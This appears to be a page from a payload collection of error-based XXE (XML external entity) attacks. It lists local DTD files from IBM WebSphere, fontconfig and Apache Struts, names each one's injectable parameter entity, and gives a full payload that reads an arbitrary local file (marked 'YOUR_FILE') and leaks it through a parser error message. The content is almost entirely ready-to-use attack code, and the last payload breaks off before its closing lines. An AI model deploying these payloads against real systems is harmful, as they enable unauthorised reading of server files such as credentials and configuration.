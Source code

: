  --- 

**DTD File:** `/opt/IBM/WebSphere/AppServer/properties/sip-app_1_0.dtd`

**Injectable entity:** `%condition`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///opt/IBM/WebSphere/AppServer/properties/sip-app_1_0.dtd">

    <!ENTITY % condition 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 


**DTD File:** `/usr/share/xml/fontconfig/fonts.dtd`

**Injectable entity:** `%constant`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % constant 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/struts/struts-config_1_1.dtd`

**Injectable entity:** `%AttributeName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/struts/struts-config_1_1.dtd">

    <!ENTITY % AttributeName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
```